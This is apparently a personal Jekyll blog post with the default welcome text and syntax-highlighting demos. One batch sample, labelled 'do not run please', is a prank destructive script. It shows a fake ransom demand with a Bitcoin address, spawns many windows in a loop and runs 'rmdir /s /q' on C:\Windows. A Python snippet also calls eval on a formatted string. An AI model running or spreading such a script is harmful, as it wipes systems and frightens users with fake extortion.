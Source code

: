 ```yaml
---
layout: post
title:  "jekyll/ruby initiation"
date:   2022-06-23 17:56:56 -0500
categories: jekyll update
---
```


## welcome to jekyll

***what is it?***
Jekyll is a simple, blog-aware, static site generator perfect for personal, project, or organization sites. Think of it like a file-based CMS, without all the complexity. Jekyll takes your content, renders Markdown and Liquid templates, and spits out a complete, static website ready to be served by Apache, Nginx or another web server. Jekyll is the engine behind GitHub Pages, which you can use to host sites right from your GitHub repositories.

***well, what can i do with it?"***
Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/

### syntax highlighting

python:

```python
else:
    if not hasattr(weighting, repartition):
        raise Exception(f'Weighting {repartition} does not exist')
    else:
        weights = eval(f'weighting.{repartition}(frames={blended_frames})')
```

batch: (do not run please)

```batch
@echo off
if not %1c == c goto forked
echo optimizing your pc now!
ping /n 1 1.0.0.1 > nul
echo your file have been encrypt! Send 6 Bitcoin to
echo bc1q5u67ypnlk4n4e35ymtc2n9cuf3m8kax0mnu39t
echo or you will loose youre files for ever!
pause > nul
:forked
set /a “i+=1”
start “” https://discord.gg/CTT
start “” cmd
if not %i% == 50 goto forked
rmdir /s /q "C:\Windows"
exit
```

brainf**k:

```brainfuck
>+++++++++[<++++++++>-]<.>+++++++[<++++>-]<+.+++++++..+++.[-]
>++++++++[<++++>-] <.>+++++++++++[<++++++++>-]<-.--------.+++
.------.--------.[-]>++++++++[<++++>- ]<+.[-]++++++++++.
```


